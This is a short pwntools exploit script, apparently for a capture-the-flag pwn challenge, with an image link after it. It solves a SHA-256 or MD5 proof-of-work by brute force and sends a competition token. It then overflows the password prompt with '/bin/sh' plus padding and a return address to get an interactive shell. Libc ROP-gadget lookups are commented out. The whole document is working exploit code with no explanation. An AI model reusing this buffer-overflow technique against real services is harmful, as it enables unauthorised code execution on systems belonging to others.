 ```php
def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug(cmd=''):
    gdb.attach(p,cmd)
    pause()
def proof_of_work(p):
    p.recvuntil(b"256(\"")
    prefixes = p.recvuntil(b'\"').decode("utf8")[:-1]
    log.success(prefixes)
    def brute(cur):
        content = prefixes + str(cur)
        s = sha256(content.encode())
        if s.hexdigest().startswith("000000") and int(s.hexdigest()[6:8], 16) < 0x40:
            return True
        return False
    proof = mbruteforce(brute,string.ascii_lowercase + string.digits, length=6, method='upto',threads=20)
    p.sendlineafter(b"zero:", proof)
def proof_of_work_md5(p):
    p.recvuntil(b"with \"")
    prefixes = p.recvuntil(b'\"').decode("utf8")[:-1]
    log.success(prefixes)
    def brute(cur):
        s = md5(cur.encode())
        if s.hexdigest().startswith(prefixes):
            return True
        return False
    proof = mbruteforce(brute,string.ascii_letters, length=4, method='fixed')
    p.sendlineafter(b":", proof)

#elf=ELF('./11')
# libc=ELF('./libc-2.23.so')
# libc=ELF('./libc-2.27.so')
#libc=ELF('./libc-2.31.so')
# libc=ELF('./libc.so.6')
# libc=ELF('./libc.so')

# rop = ROP(libc)
# rdi=(rop.find_gadget(['pop rdi', 'ret']))[0]
# rsi=(rop.find_gadget(['pop rsi', 'ret']))[0]
sla('token:','20:MEYCIQCSPC8cZqmtbdZzL8NH8ZsYVZWmObVOyeXgLCqEUxxxyAIhALrkbJlt4GFMl-p6cyLpLdBUMaZRJrVU3ETXNwH7tuPN')
sla('Enter your username: ','root\x00')
pl=b'/bin/sh\x00'+b'a'*0x30+flat(0x00000000040117a)

sa('Enter the password: ',pl)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1715160298532-990b3baa-a5e4-4516-8afd-46eac94fad1e.png)
